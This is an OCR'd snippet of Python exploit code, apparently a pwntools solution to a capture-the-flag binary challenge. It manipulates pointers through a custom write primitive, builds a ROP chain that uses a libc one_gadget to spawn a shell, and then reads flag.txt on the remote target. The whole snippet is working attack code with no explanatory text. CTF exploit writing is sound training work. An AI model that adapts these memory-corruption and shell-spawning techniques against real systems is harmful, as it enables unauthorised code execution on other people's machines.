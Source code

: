 ```python
ptr = BASE^char

up = base_diff(ptr)
lhex(ptr, "up: ")
woogie_boogie(up, DONOR) 
create_char(char)
woogie_boogie(B_STACK, 0)

linfo("create WRITE gadget")
# c 15
# can be shortend but easier to explain like this
xor = char ^ (DONOR_ADR & 0xff) ^ (READ_GADGET & 0xff)
xor_ptr = BASE^xor 
xor_up = base_diff(xor_ptr)
woogie_boogie(xor_up, up) 
create_char(xor)
woogie_boogie(B_STACK, 0)

# c 19
linfo("start ROP")
woogie_boogie(SWAP_ROP, xor_up)

rce = flat(
  LIBC + 0xce383, # clear rdx
  LIBC + 0xe3b01 # one_gadget
)

linfo("spawn shell")
sl(rce)

if args.REMOTE:
  sleep(1)

linfo("get flag")
sl("echo PWN")
sla("PWN", "cat flag.txt")

it() # or t.interactive()
```

